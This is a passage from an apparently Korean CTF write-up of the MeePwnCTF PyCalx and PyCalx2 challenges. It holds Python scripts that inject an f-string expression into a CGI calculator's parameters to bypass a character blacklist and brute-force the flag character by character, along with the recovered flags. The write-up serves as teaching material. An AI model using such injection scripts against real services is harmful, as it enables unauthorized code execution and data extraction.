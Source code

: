 이를 이용하여 FLAG를 뽑았으며m 최종쿼리와 python 소스는 다음과 같다.

```python
import requests

url = 'http://178.128.96.203/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
        r = requests.get(url, params=params)
        if 'Invalid' not in r.text:
            flag += chr(i)
            print flag
            break
```

#### 플래그

FLAG : MeePwnCTF{python3.66666666666666\_\(\[\_((you\_passed\_this?]]]]]])}



## pycalx2

#### 문제 설명

> You should solve `PyCalx` first. 

#### 문제 풀이

pycalx의 문제에서 op에 getValue을 추가적으로 거쳐 필터링이 추가되어 있다.

```python
def get_value(val):
    val = str(val)[:64]
    if str(val).isdigit(): return int(val)
    	blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
    if val == '' or [c for c in blacklist if c in val] != []:
    	print('<center>Invalid value</center>')
    	sys.exit(0)
    return val
```

이와 같은 경우도 위와 같은 코드를 통해 뽑을 수 있다.

```python
import requests

url = 'http://206.189.223.3/cgi-bin/server.py'

params = {'value1': 'True',
          'op': '+f',
          'value2': '{source*0 if source in FLAG else 1}'}

flag = 'MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}'

while True:
    for i in range(ord('['), 0x100):
        print i
        params['source'] = flag + chr(i)
```
